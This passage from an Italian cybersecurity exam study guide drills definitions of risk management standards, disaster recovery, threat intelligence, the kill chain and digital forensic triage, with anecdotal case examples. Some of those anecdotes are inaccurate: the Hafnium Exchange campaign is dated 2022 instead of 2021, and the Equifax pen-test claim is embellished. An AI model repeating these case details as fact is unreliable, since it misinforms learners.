Fase in cui si specifica come i trattamenti scelti verranno implementati, con un ordine che tenga conto della priorita' dei rischi.

> **Collegamento:** Dopo aver fatto Risk Assessment (Q8-11), il Treatment Plan (Q12) e' il PIANO D'AZIONE concreto. Si collega al RMP (Q19) che e' il documento finale che racchiude tutto.

> ** CHIUDI GLI OCCHI. RIPETI:** "Risk Treatment Plan = specifica COME i trattamenti scelti verranno implementati, in ordine di priorita'. Collegato al RMP." *(ASPETTA 10 SECONDI.)*

> ** If-Then per l'esame:** SE il prof chiede "cos'e' il Risk Treatment Plan" → ALLORA rispondi: "E' la fase in cui si specifica come i trattamenti scelti verranno implementati, con un ordine che tenga conto della priorita' dei rischi. Viene dopo Identification, Analysis, Evaluation."

**13) Differenza tra likelihood e probability?**
Likelihood = probabilita' (verosimiglianza) che accada qualcosa. Probability = misura della probabilita' espressa come numero tra 0 e 1 (0 = impossibile, 1 = certezza).

> **In pratica:** Il team SOC di un'azienda dice: "C'e' un'alta LIKELIHOOD che questo IP stia facendo port scanning sulla nostra rete" (giudizio basato su esperienza). Poi il SIEM calcola: "PROBABILITY del 92% che sia un attacco, basata su 15 indicatori correlati" (misura numerica).

> ** CHIUDI GLI OCCHI. RIPETI:** "Likelihood = giudizio qualitativo ('alta', 'bassa'). Probability = numero tra 0 e 1. Il SIEM calcola la probability." *(ASPETTA 10 SECONDI.)*

**14) Nell'ambito della ISO 31000, cosa e' il brainstorming?**
Tecnica creativa di gruppo per far emergere idee. Conversazione libera tra persone competenti per identificare potenziali modalita' di fallimento, pericoli, rischi, criteri per decisioni.

> **In pratica:** Metti 5 esperti in una stanza. Chiedi: "Cosa potrebbe andare storto nel nostro nuovo sistema?" Ognuno dice tutto quello che gli viene in mente, senza censura. Alla fine hai una lista di rischi che da solo non avresti mai pensato.

> ** CHIUDI GLI OCCHI. RIPETI:** "Brainstorming = tecnica creativa di gruppo. Conversazione libera senza censura per far emergere rischi." *(ASPETTA 10 SECONDI.)*

**15) Cosa e' il BIA: Business Impact Analysis?**
Valutazione dell'impatto sul business. Analizza come i rischi di interruzione potrebbero influire sulle operazioni, identifica e quantifica le capacita' necessarie per gestirla.

> **In pratica:** Un'azienda sanitaria fa BIA sul sistema di cartelle cliniche elettroniche. Scopre che: 1 ora di fermo = 200 visite annullate = 20.000 EUR di perdita + rischio clinico per i pazienti. RTO massimo = 2 ore. RPO = 15 minuti (non puoi perdere piu' di 15 minuti di dati clinici). Il sistema di fatturazione invece puo' aspettare 24 ore. Il BIA ti dice COSA ripristinare per primo.

> ** CHIUDI GLI OCCHI. RIPETI:** "BIA = Business Impact Analysis. Valuta impatto delle interruzioni sul business. Dice RTO e RPO. Esempio: cartelle cliniche RTO 2 ore, fatturazione RTO 24 ore." *(ASPETTA 10 SECONDI.)*

---

>> ** PASS 2 CHECK: SECONDE 5 DOMANDE BLOCCO 2 (Q11-Q15):** Chiudi tutto. Rispondi a voce: (11) Cos'e' la Risk Evaluation? (12) Cos'e' il Risk Treatment Plan? (13) Differenza likelihood vs probability? (14) Cos'e' il brainstorming? (15) Cos'e' il BIA?: Metti • sulle domande che sbagli.

---

**16) Cosa e' lo SWIFT?**
Studio sistematico basato su un team. Usa ipotesi "cosa accadrebbe se" per indagare come un sistema sara' influenzato da deviazioni dalle operazioni normali.

> **In pratica:** "Cosa accadrebbe se il database andasse giu' durante il Black Friday?" Il team analizza sistematicamente le conseguenze a cascata. A differenza del brainstorming (libero), lo SWIFT e' strutturato: usi una checklist di parole guida.

> ** CHIUDI GLI OCCHI. RIPETI:** "SWIFT = Structured What-If Technique. 'Cosa accadrebbe se...' con checklist strutturata. Diverso dal brainstorming che e' libero." *(ASPETTA 10 SECONDI.)*

**17) Di cosa si occupa la serie ISO 27000?**
Famiglia di norme per la gestione della sicurezza informatica. Proteggono le informazioni da attacchi, errori umani, calamita', vulnerabilita'. Includono ISO 27001 (requisiti), 27002 (controlli), 27005 (risk management).

> **Collegamento:** La ISO 31000 ti da' il METODO GENERALE per gestire QUALSIASI rischio. La serie ISO 27000 applica quel metodo SPECIFICAMENTE alla sicurezza delle informazioni. Sono complementari: 31000 = metodo universale, 27000 = applicazione specifica.

> ** CHIUDI GLI OCCHI. RIPETI:** "ISO 27000 = famiglia di norme per sicurezza informazioni. 27001 = requisiti, 27002 = controlli, 27005 = risk management. Applica la ISO 31000 al mondo IT." *(ASPETTA 10 SECONDI.)*

---

>> ** PASS 2 CHECK: ULTIME DOMANDE BLOCCO 2 (Q16-Q17):** Rispondi a voce: (16) Cos'e' lo SWIFT? (17) Di cosa si occupa la serie ISO 27000?

>> **PASS 3 PANORAMIC CHECK: BLOCCO 2:** Leggi ogni titolo a voce alta e rispondi SENZA GUARDARE:
>> 6) Ciclo di Deming?  7) Contesto ISO 31000?  8) Fasi Risk Assessment?  9) Risk Identification?  10) Risk Analysis?
>> 11) Risk Evaluation?  12) Risk Treatment Plan?  13) Likelihood vs Probability?  14) Brainstorming?  15) BIA?
>> 16) SWIFT?  17) Serie ISO 27000?

> ** 12/12 COMPLETATE (Blocco 2)! PREMIO:** 1 quadratino di cioccolato fondente. Poi alzati, cammina 2 minuti, bevi acqua.

> ** INSEGNA AL MURO:** Scegli UNA domanda del Blocco 2 e spiegala come a un bambino di 10 anni. "La ISO 31000 e' come il libretto di istruzioni per capire cosa puo' andare storto in un'azienda e come prepararsi."

---

## BLOCCO 3: ISO 27005, RMP, DISASTER RECOVERY (Domande 18-22)

> ** STEP ZERO: 30-SECOND PREVIEW:** 5 domande: ISO 27005 per la sicurezza informatica (Q18), Risk Management Plan come documento formale (Q19), Disaster Recovery per ripristino post-catastrofe (Q20), tipi di backup hot/warm/cold (Q21), Vulnerability Assessment integrato nel RM (Q22). **Say aloud:** "Block 3 is about ISO 27005, RMP, Disaster Recovery, backup, and Vulnerability Assessment."



**18) Di cosa si occupa la ISO 27005?**
Information security risk management. Contiene la descrizione del processo di gestione del rischio per la sicurezza delle informazioni.

> **Collegamento:** ISO 31000 (Q6-17) = gestione del rischio GENERICO. ISO 27005 (Q18) = gestione del rischio SPECIFICO per la sicurezza informatica. La 27005 applica il framework della 31000 al mondo IT. Il RMP (Q19) e' il documento che mette in pratica entrambe.

> ** CHIUDI GLI OCCHI. RIPETI:** "ISO 27005 = risk management per sicurezza informazioni. Applica il framework ISO 31000 al mondo IT." *(ASPETTA 10 SECONDI.)*

**19) Cosa e' il Risk Management Plan?**
Documento formale che descrive tutte le attivita' del processo di gestione dei rischi: identificazione, valutazione, mitigazione, monitoraggio e controllo.

> **In pratica:** Il RMP di un'azienda come Unicredit includera': elenco rischi (data breach, DDoS, frodi, ransomware), analisi per ognuno (CVSS, impatto finanziario, probabilita'), contromisure (firewall, SIEM, backup, team SOC 24/7, assicurazione cyber), KPI (tempo medio rilevamento < 15 min, tempo medio risposta < 1 ora, patch critiche entro 48 ore), e un piano di riserva (sito di DR a 50 km con RTO di 4 ore).

> ** CHIUDI GLI OCCHI. RIPETI:** "RMP = documento formale con TUTTE le attivita' di RM: identificazione, valutazione, mitigazione, monitoraggio. Include KPI e piani di riserva." *(ASPETTA 10 SECONDI.)*

> ** If-Then per l'esame:** SE il prof chiede "cos'e' il RMP" → ALLORA rispondi: "Documento formale che descrive tutte le attivita' del processo di gestione dei rischi: identificazione, valutazione, mitigazione, monitoraggio e controllo. Include KPI, contromisure, e piani di riserva."

**20) Cosa si intende per Disaster Recovery?**
Si concentra sulla mitigazione dei rischi di eventi catastrofici. Definisce strategie e procedure per ripristinare le operazioni IT dopo un disastro, garantendo la continuita' operativa.

> **In pratica:** Un'azienda con sede unica a Milano vicino a un fiume. Il DR plan prevede: se il data center si allaga (rischio idrogeologico), in 30 minuti si attiva il sito di disaster recovery a Francoforte (AWS eu-central-1). I server critici (database ordini, Active Directory) vengono ripristinati per primi (RTO 2 ore, RPO 15 min). Quelli non critici (intranet aziendale) entro 24 ore. Ogni 6 mesi fanno un test di DR reale spegnendo il data center principale.\n\n> **Collegamento:** Il DR (Q20) si basa sui backup (Q21): senza backup non puoi ripristinare nulla. La BIA (Q15) ti dice COSA ripristinare per primo. Il RMP (Q19) e' il documento che contiene il DR plan. La Business Continuity va oltre il DR: non solo ripristini i sistemi, ma garantisci che l'azienda continui a operare DURANTE il disastro.

> ** CHIUDI GLI OCCHI. RIPETI:** "DR = strategie per ripristinare IT dopo disastro. Collegato a backup, BIA, RMP. Esempio: server Milano allagato → attivo DR a Francoforte in 30 minuti." *(ASPETTA 10 SECONDI.)*

**21) Quali sono i tipi di backup in base all'operativita'?**
Backup a Caldo (Hot Backup): sistema in funzione, nessuna interruzione. Backup a Freddo (Cold Backup): sistema fermo. Backup Tiepido (Warm Backup): sistema parzialmente operativo.

> **In pratica:** Hot = Amazon non puo' fermare il sito durante il Prime Day per fare backup, quindi usa backup a caldo con replica continua su database multi-AZ. Cold = una PMI spegne il gestionale il sabato notte alle 2:00 e lancia Veeam per il backup completo su NAS. Warm = il sito della banca va in modalita' "sola consultazione" (non puoi fare bonifici ma vedi il saldo) mentre i sistemi batch fanno il backup notturno.

> ** CHIUDI GLI OCCHI. RIPETI:** "Tre tipi: Hot (sistema attivo, no stop), Warm (parzialmente attivo), Cold (sistema fermo)." *(ASPETTA 10 SECONDI.)*

**22) Cosa e' la Vulnerability Assessment e come si integra nel Risk Management?**
Identificazione delle vulnerabilita', valutazione del rischio, soluzioni e contromisure. Si integra nelle fasi di valutazione, mitigazione e monitoraggio del RMP.

> **Collegamento:** La VA (Q22) e' uno STRUMENTO del Risk Management. Serve nella fase di Risk Identification (Q9): scansionando la rete con OpenVAS trovi le vulnerabilita' che diventano rischi da inserire nel registro. Poi nella fase di Treatment (Q12) decidi quali vulnerabilita' correggere.

> ** CHIUDI GLI OCCHI. RIPETI:** "VA = identificare vulnerabilita', valutare rischio, proporre contromisure. Si integra nelle fasi di valutazione, mitigazione e monitoraggio del RMP." *(ASPETTA 10 SECONDI.)*

---

>> ** PASS 2 CHECK: BLOCCO 3 (5 domande):** Chiudi tutto. Rispondi a voce: (18) Di cosa si occupa ISO 27005? (19) Cos'e' il RMP? (20) Cos'e' il Disaster Recovery? (21) Quali tipi di backup? (22) Cos'e' la VA e come si integra nel RM?: Metti • sulle domande che sbagli.

>> **PASS 3 PANORAMIC CHECK: BLOCCO 3:** Leggi ogni titolo e rispondi SENZA GUARDARE: 18) ISO 27005? 19) RMP? 20) Disaster Recovery? 21) Tipi di backup? 22) VA e RM?

> ** 5/5 COMPLETATE (Blocco 3)! PREMIO:** Cioccolato. Cammina 2 minuti. Bevi acqua.

> ** INSEGNA AL MURO:** Spiega il DR a qualcuno che non sa niente: "Se l'ufficio prende fuoco, il DR e' il piano B per far ripartire i computer da un'altra parte."

---

## BLOCCO 4: THREAT INTELLIGENCE, HUNTING, KILL CHAIN (Domande 23-28)

> ** STEP ZERO: 30-SECOND PREVIEW:** 6 domande: hacker state-sponsored (Q23), Threat Intelligence come raccolta info minacce (Q24), Threat Hunting come ricerca proattiva (Q25), Cyber Kill Chain 7 fasi (Q26), Pen Test vs VA (Q27), EDR endpoint monitoring (Q28). **Say aloud:** "Block 4 is about threats: who attacks, how we gather intel, how we hunt, the kill chain, pen testing, and EDR."



**23) Cosa si intende per "Hacker" State-Sponsored?**
Il Governo di una Nazione usa "agenti" per proteggere il Paese da attacchi informatici. Alcune nazioni li usano anche per raccogliere informazioni su altri Paesi o compromettere sistemi.

> **In pratica:** Non e' un ragazzino nel seminterrato. E' un TEAM di esperti pagati da uno Stato. Hanno risorse enormi, tempo illimitato, e sono difficilissimi da fermare. Esempi: APT28 (Russia), APT41 (Cina), Lazarus Group (Corea del Nord).

> ** CHIUDI GLI OCCHI. RIPETI:** "State-Sponsored = governo che usa agenti per attacchi informatici. APT28 Russia, APT41 Cina, Lazarus Corea del Nord." *(ASPETTA 10 SECONDI.)*

**24) Cosa e' la Threat Intelligence?**
Processo di raccolta, analisi e diffusione di informazioni su minacce attuali o potenziali. Include IoC (Indicator of Compromise), TTP (Tattiche, Tecniche, Procedure degli attaccanti).

> **In pratica:** Non ti limiti a sapere che "esiste un malware chiamato Emotet". La Threat Intelligence ti dice: "Emotet arriva via email con allegato .doc malevolo, usa queste macro, si connette a questi IP, e viene usato dal gruppo TA542. Ecco gli hash dei file e le regole YARA per rilevarlo."

**25) Cosa e' il Threat Hunting?**
Ricerca PROATTIVA delle minacce nella rete. Strategia offensiva: bisogna pensare come un attaccante. Richiede forte comprensione pratica delle minacce.

> **In pratica:** L'antivirus CrowdStrike sul laptop del CEO non segnala nulla. Ma un Threat Hunter nota che ogni notte alle 3:17 c'e' una connessione HTTPS di 2 KB verso un IP in Bulgaria. 2 KB non sono dati, sono un BEACON ("sono ancora qui, dammi ordini"). Indaga: trova un malware APT che esisteva da 6 mesi senza essere rilevato. Questo e' Threat Hunting: trovare cio' che i sistemi automatici non vedono.

> ** CHIUDI GLI OCCHI. RIPETI:** "Threat Hunting = ricerca PROATTIVA. Pensi come attaccante. Esempio: beacon da 2 KB ogni notte verso Bulgaria: trovato APT nascosto da 6 mesi." *(ASPETTA 10 SECONDI.)*

**26) Cosa e' la Cyber Attack Kill Chain?**
Le operazioni dell'attaccante in fasi: Reconnaissance (ricognizione), Weaponization (creazione arma), Delivery (consegna), Exploitation (sfruttamento), Installation (installazione), Command & Control (C2), Actions on Objectives (azioni sull'obiettivo).

> **In pratica:** Attacco Colonial Pipeline (maggio 2021): RECONNAISSANCE = gli attaccanti trovano una VPN esposta. WEAPONIZATION = preparano ransomware DarkSide. DELIVERY = usano credenziali rubate per entrare nella VPN. EXPLOITATION = sfruttano la mancanza di MFA. INSTALLATION = installano il ransomware su server critici. C2 = il ransomware comunica col server DarkSide per la chiave di cifratura. ACTIONS = 5.500 miglia di oleodotto ferme, East Coast USA senza benzina per 6 giorni. Se qualcuno avesse bloccato la fase di Delivery (MFA sulla VPN), l'intero attacco sarebbe stato fermato.

**27) Cosa e' un Pen Test?**
Penetration testing: simulazione di attacco. Diverso dalla VA: la VA trova vulnerabilita', il pen test le SFRUTTA per dimostrare che sono realmente utilizzabili.

> **In pratica:** Equifax breach (2017): la VA avrebbe trovato la vulnerabilita' CVE-2017-5638 in Apache Struts con CVSS 10.0 (CRITICAL). Se l'avessero patchata in tempo, 147 milioni di dati personali non sarebbero stati rubati. Il pen test successivo DIMOSTRO' che quella vulnerabilita' permetteva l'esecuzione remota di codice con privilegi di root. VA = "hai questa vulnerabilita' critica". Pen test = "guardami mentre attraverso il tuo firewall e rubo il database completo in 12 minuti".

**28) Cosa e' un EDR?**
Endpoint Detection and Response. Monitora e analizza continuamente l'attivita' degli endpoint (computer, server, dispositivi mobili) per rilevare e rispondere alle minacce. Esempi: CrowdStrike Falcon, Microsoft Defender for Endpoint.

> **Collegamento:** EDR e' uno strumento DIFENSIVO che si collega alla Kill Chain (Q26): monitora gli endpoint per rilevare attivita' sospette in TUTTE le fasi della kill chain. Con la Threat Intelligence (Q24) puoi configurare l'EDR per riconoscere IoC specifici.

> ** CHIUDI GLI OCCHI. RIPETI:** "EDR = monitora endpoint 24/7. CrowdStrike, Defender for Endpoint. Collegato a Kill Chain e Threat Intelligence." *(ASPETTA 10 SECONDI.)*

---

>> ** PASS 2 CHECK: BLOCCO 4 (6 domande):** Chiudi tutto. Rispondi a voce: (23) Cosa sono gli hacker State-Sponsored? (24) Cos'e' la Threat Intelligence? (25) Cos'e' il Threat Hunting? (26) Cos'e' la Kill Chain? (27) Cos'e' un Pen Test? (28) Cos'e' un EDR?: Metti • sulle domande che sbagli.

>> **PASS 3 PANORAMIC CHECK: BLOCCO 4:** Leggi ogni titolo e rispondi SENZA GUARDARE: 23) State-Sponsored? 24) Threat Intelligence? 25) Threat Hunting? 26) Kill Chain? 27) Pen Test? 28) EDR?

> ** 6/6 COMPLETATE (Blocco 4)! PREMIO:** Cioccolato. Cammina. Bevi.

> ** INSEGNA AL MURO:** Spiega la Kill Chain come un film: "L'attaccante prima studia la vittima (Recon), poi prepara l'arma (Weaponization), la consegna (Delivery), la fa esplodere (Exploitation), si installa (Installation), chiama rinforzi (C2), e ruba (Actions)."

---

## BLOCCO 5: DIGITAL FORENSIC, ACQUISIZIONE, ISO 27037 (Domande 29-36)

> ** STEP ZERO: 30-SECOND PREVIEW:** 8 domande: cos'e' la Digital Forensic (Q29), acquisizione forense vs legale (Q30), modalita' Live vs Post Mortem (Q31), ISO 27037 per acquisizioni (Q32), caratteristiche prova forense (Q33), DEFR primo sulla scena (Q34), DES specialista (Q35), Cyber Triage codici priorita' (Q36). **Say aloud:** "Block 5 is about Digital Forensic, how to acquire evidence, ISO 27037, roles, and triage."



**29) Cosa e' la Digital Forensic?**
Branca della scienza forense che si occupa di identificazione, acquisizione, conservazione, analisi e presentazione di prove digitali utilizzabili in un contesto legale.

> **In pratica:** Caso reale: un'azienda quotata in borsa subisce un furto di dati. Il team forense acquisisce 5 laptop, 2 server, e il firewall. Con FTK Imager fa copia bit-to-bit di ogni disco (hash SHA256 per garantire integrita'). Con Autopsy analizza i file cancellati e trova data.zip creato e rimosso il giorno dell'attacco. Con Volatility analizza la RAM di un server ancora acceso e trova una connessione verso un IP in Cina. Con Wireshark analizza il pcap del firewall e vede 2.3 GB di traffico HTTP verso quello stesso IP. Catena di custodia documentata a ogni passaggio. Il report finale (200 pagine) viene presentato al tribunale.

> ** CHIUDI GLI OCCHI. RIPETI:** "Digital Forensic = identificazione, acquisizione, conservazione, analisi, presentazione di prove digitali in contesto legale." *(ASPETTA 10 SECONDI.)*

> ** If-Then per l'esame:** SE il prof chiede "cos'e' la Digital Forensic" → ALLORA rispondi: "Branca della scienza forense per identificazione, acquisizione, conservazione, analisi e presentazione di prove digitali. 5 fasi. Usa FTK Imager, Autopsy, Volatility, Wireshark."

**30) Differenza tra acquisizione forense e acquisizione legale?**
Forense: risponde a criteri fissati internazionalmente (ISO). Legale: risponde a criteri fissati dalla legislazione del paese dove avviene l'acquisizione.

> **In pratica:** L'acquisizione forense segue le ISO 27037. L'acquisizione legale deve rispettare le leggi del paese (es. in Italia la Legge 48/2008, ratifica della Convenzione di Budapest). In alcuni paesi serve un mandato, in altri no. La procedura tecnica puo' essere identica, ma la VALIDITA' LEGALE dipende dalla giurisdizione.

> ** CHIUDI GLI OCCHI. RIPETI:** "Forense = segue criteri ISO internazionali. Legale = segue leggi del paese. In Italia: Legge 48/2008." *(ASPETTA 10 SECONDI.)*

**31) Quali sono le modalita' di acquisizione forense?**
LIVE: da dispositivo attivo, le stesse operazioni di acquisizione modificano i contenuti. POST MORTEM: da dispositivo inerte o reso inerte (es. HD con blocco in scrittura).

> **In pratica:** LIVE = PC acceso, fai dump RAM con FTK Imager. Ogni comando che esegui altera la RAM (effetto onda nello stagno). POST MORTEM = PC spento, estrai HD, lo colleghi a un write blocker, fai copia bit-to-bit. Nessuna modifica.

**32) Quale ISO si occupa di acquisizioni forensi?**
UNI CEI EN ISO/IEC 27037: "Guidelines for identification, collection, acquisition, and preservation of digital evidence".

**33) Quali caratteristiche dovrebbe avere la prova forense?**
Pertinenza (dati utili all'indagine), Affidabilita' (risultato riproducibile dell'originale), Sufficienza (tutte le informazioni necessarie), Autenticita' (integrita' garantita).

> **In pratica:** Caso reale: un'azienda denuncia un ex dipendente per furto di database clienti. Il giudice ammette le prove perche': (1) Pertinenza: i log mostravano accesso al DB la notte prima delle dimissioni. (2) Affidabilita': l'hash SHA256 del disco originale e della copia forense coincidevano. (3) Sufficienza: furono acquisiti laptop, chiavetta USB, e log server. (4) Autenticita': la catena di custodia mostrava che nessuno aveva alterato i dispositivi. Senza anche UNO solo di questi criteri, il caso sarebbe stato archiviato. La ISO 27037 esiste proprio per garantire che le prove digitali superino questo test in tribunale.

**34) Chi e' il D.E.F.R.?**
Digital Evidence First Responder. Agisce per primo sulla scena di un incidente, esegue raccolta e acquisizione delle prove, responsabile della corretta gestione.

**35) Chi e' il D.E.S.?**
Digital Evidence Specialist. Esegue le stesse attivita' del DEFR ma con conoscenze specialistiche che permettono attivita' tecniche piu' complesse, anche post mortem.

> **In pratica:** DEFR = il poliziotto che arriva per primo, mette i sigilli, raccoglie le prove di base. DES = il detective specializzato che arriva dopo e fa l'analisi approfondita.

**36) Cosa e' il Cyber Triage?**
Procedura per rapida valutazione della condizione dei sistemi e del loro rischio evolutivo, assegnando priorita' di trattamento (come il triage sanitario con codici colore).

> **In pratica:** Come al pronto soccorso: codice ROSSO = sistema con malware attivo che si sta diffondendo, priorita' massima. GIALLO = sistema compromesso ma isolato. VERDE = sospetto ma nessuna prova certa. Il triage ti dice cosa fare PRIMA.

---

>> ** PASS 2 CHECK: BLOCCO 5 (8 domande Q29-Q36):** Chiudi tutto. Rispondi a voce IN ORDINE: (29) Cos'e' la Digital Forensic? (30) Differenza forense vs legale? (31) Modalita' Live vs Post Mortem? (32) Quale ISO per acquisizioni? (33) Caratteristiche prova forense? (34) Chi e' il DEFR? (35) Chi e' il DES? (36) Cos'e' il Cyber Triage?: Metti • sulle domande che sbagli.

>> **PASS 3 PANORAMIC CHECK: BLOCCO 5:** Leggi ogni titolo a voce alta e rispondi SENZA GUARDARE.

> ** 8/8 COMPLETATE (Blocco 5)! PREMIO:** Cioccolato. Cammina. Bevi.

> ** INSEGNA AL MURO:** Spiega la Digital Forensic come una scena del crimine: "Il DEFR e' il poliziotto che arriva per primo e mette i sigilli. Il DES e' il detective che arriva dopo e analizza le impronte."

---

## BLOCCO 6: TRIAGE, MEMORY FORENSIC, REGISTRO (Domande 37-42)

> ** STEP ZERO: 30-SECOND PREVIEW:** 6 domande: operazioni minime di triage (Q37), Memory Forensic studio RAM (Q38), acquisizione RAM Linux con fmem/LiME (Q39), registro di sistema Windows (Q40), analisi registro con regedit/RegRipper (Q41), ShellBags per cartelle visitate (Q42). **Say aloud:** "Block 6 is about triage operations, memory forensic, and Windows registry analysis."



**37) Quali sono le operazioni minime di un triage?**
Dump e analisi RAM, analisi del registro, Event Logs, Prefetch, cattura e analisi processi in esecuzione, Amcache, ShimCache.

> **In pratica:** Sei il DEFR di turno. Chiamata alle 3 del mattino: "Pensiamo che un hacker sia entrato nel server HR". Arrivi, il server e' ancora acceso. Checklist triage: 1) Dump RAM con Dumpit su chiavetta USB (2 minuti). 2) Salva lista processi con `tasklist > processes.txt`. 3) Copia file registro SAM, SYSTEM, SOFTWARE su chiavetta. 4) Esporta Event Logs ultime 24 ore con `wevtutil`. 5) Copia cartella C:\Windows\Prefetch. 6) Salva file Amcache.hve. ORA puoi spegnere il server e fare l'immagine forense del disco con FTK Imager. Tempo totale: 15 minuti. Hai preservato tutte le prove volatili.

**38) Di cosa si occupa la Memory Forensic?**
Studio dei dati catturati dalla memoria (RAM) di un sistema target. Permette di trovare processi, connessioni, codice iniettato che sul disco non ci sono.

> **In pratica:** Nel 2022 Microsoft scopri' che un APT cinese (Hafnium) sfruttava vulnerabilita' zero-day in Exchange Server. Il malware era FILELESS: risiedeva SOLO nella memoria del processo w3wp.exe di IIS. Nessun file su disco, nessuna traccia su Prefetch o Amcache. Spegnevi il server? Prove sparite. Solo un dump della RAM con Volatility poteva trovare il codice iniettato. Ecco perche' il dump RAM e' la PRIMA operazione di triage, sempre.

**39) Con quali applicazioni si puo' acquisire la RAM di un sistema Linux?**
Fmem: crea il device /dev/fmem, acquisizione con DD in raw. LiME: acquisizione via rete, calcola hash del memory dump, supporta vari formati di output. Entrambi richiedono privilegi di root.

> **In pratica:** Su Linux NON puoi usare FTK Imager (e' Windows). Usi fmem se sei fisicamente davanti al server. Usi LiME se devi acquisire da remoto via SSH.

**40) Cosa e' il registro di sistema di Windows?**
Database gerarchico presente da Windows 95. Sostituisce i file .ini. Memorizza impostazioni di configurazione per il sistema operativo e le applicazioni.

> **In pratica:** Il registro e' il CERVELLO di Windows. Ogni impostazione, ogni programma installato, ogni chiavetta USB mai collegata, ogni rete Wi-Fi a cui ti sei connesso: TUTTO finisce nel registro. Dal punto di vista forense e' una MINIERA D'ORO.

**41) Come si analizza il registro di sistema Windows?**
Manualmente con regedit, o in modo assistito con RegRipper (o altre applicazioni). I file principali sono SAM, SOFTWARE, SYSTEM (in windows\system32\config) e NTUSER.DAT.

> **In pratica:** Regedit = apri il registro e navighi a mano (lento, ma va bene per un controllo rapido). RegRipper = tool automatico che estrae TUTTE le informazioni forensi rilevanti e le mette in un report (molto piu' veloce).

**42) Cosa sono le ShellBags?**
Memorizzano le preferenze di visualizzazione delle cartelle impostate da un utente in Esplora risorse (dimensioni, posizione finestre, colonne, ordinamento). Importanti perche' registrano le cartelle visitate.

